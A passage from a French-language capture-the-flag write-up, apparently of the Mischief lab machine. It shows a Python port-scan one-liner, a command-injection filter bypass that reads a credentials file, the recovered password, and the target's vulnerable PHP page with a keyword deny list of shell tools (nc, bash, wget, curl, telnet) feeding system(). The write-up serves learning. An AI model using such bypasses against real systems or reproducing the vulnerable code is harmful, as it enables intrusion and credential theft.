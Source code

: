 ```python
import socket;[socket.socket().connect_ex(('10.10.13.178', i)) for i in range(0,65536)]
```

Du coup on oublie pour le moment et on s'en remet au contenu du fichier *credentials* que l'on peut obtenir de la façon suivante pour éviter l'un des filtres présents :  

```bash
cat /home/loki/cred* #
```

On obtient alors 
> pass: lokiisthebestnorsegod

Il est aussi possible d'exfiltrer le contenu du fichier via ICMP (voir [ma solution du CTF Persistence](http://devloop.users.sourceforge.net/index.php?article106/solution-du-ctf-persistence)) mais c'est clairement overkill pour notre cas puisqu'on peut obtenir l'output.  

Si j'connaissais l'con qu'a fait sauter le pont...
--------------------------------------------------

Via ces identifiants on peut finalement obtenir un accès SSH en tant que *loki* et accéder au premier flag (apparemment certains ont eu la consigne de ne plus poster les flags donc je m'adapte) :  

```plain
loki@Mischief:~$ md5sum user.txt
1db6b29e3f4246e5b4c1ae0a082dca98  user.txt
```

Parce que c'est toujours bon de savoir après coup ce qu'il se passait voici le code PHP pour l'exécution de commande :  

```php
<?php
if(isset($_POST['command'])) {
    $cmd = $_POST['command'];
    if (strpos($cmd, "nc" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "bash" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "chown" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "setfacl" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "chmod" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "perl" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "find" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "locate" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "ls" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "php" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "wget" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "curl" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "dir" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "ftp" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "telnet" ) !== false){
        echo "Command is not allowed.";
    } else {
        system("$cmd > /dev/null 2>&1");
        echo "Command was executed succesfully!";
```